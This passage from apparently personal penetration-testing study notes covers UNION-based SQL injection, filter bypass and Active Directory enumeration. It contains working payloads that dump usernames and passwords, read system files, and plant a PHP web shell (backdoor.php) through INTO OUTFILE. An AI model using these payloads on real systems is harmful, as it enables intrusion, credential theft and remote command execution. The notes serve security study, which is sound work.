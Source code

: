 	- But this comments out the last part and will simply SELECT the account of administrator, ignoring whether that was the correct password. 

### UNION SQLi
UNION SELECT - selecting data from an additional table in addition to the intended table

Determine Number of Columns:
1. `$validQuery ORDER by 1`
2. `$validQuery ORDER by 2`
3. and so on until error, then you can form a union statement to chain a second query and see how data is displayed.

Start with `UNION ALL SELECT 1, 2, X`. Then you can determine which column has the most space, making room for more fun commands/exploits (Commands below are based on MariaDB, others might be different)
Enumeration Examples:
- `UNION ALL SELECT 1, 2, @@version`
- `UNION ALL SELECT 1, 2, user ()`
- `UNION ALL SELECT 1, 2, table_name FROM information_schema.tables` - this can grab the table name, like with "users" below
	- Then you can use the table name (users) to reveal other columns:`UNION ALL SELECT 1, 2. column_name FROM information_schema.columns WHERE table_name='users'` 
	- Then you can reveal other info from those columns: `UNION ALL SELECT 1, username, password FROM users`
- `UNION ALL SELECT 1, 2, load_file('C:/Windows/System32/drivers/etc/hosts')` - You might be able to use the load_file function to execute code on the system as well:
- `UNION ALL SELECT 1, 2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE 'c:/xampp/htdocs/backdoor.php'` - using the into OUTFILE to write code, and insert it into the system. 
	- This might present an error, but you could test it with the previous command and see if the file was created.
	- OR you can just run it by trying `$Host/backdoor.php?cmd=$cmd`

### Filter bypass
#### XML encoding
`&#x53;ELECT` instead of `SELECT` to bypass prohibited keywords
- Decoded server-side before being passed to SQL interpreter


## XSS

[Cheatsheet](https://notchxor.github.io/oscp-notes/2-web/xss/) from notchxor.

# Post-Exploit
## Active Directory

### Active Directory Enumeration

try `Import-Module ActiveDirectory`
- `Get-ADDomain`
- `Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName` - to list users with an SPN (kerberoastable)
- `Get-ADGroup -Filter * | select name` - list groups
- `Get-ADGroup -Identity "$groupName"` - get info about that group
- `Get-ADGroupMember -Identity "$groupName"` - list users of the group
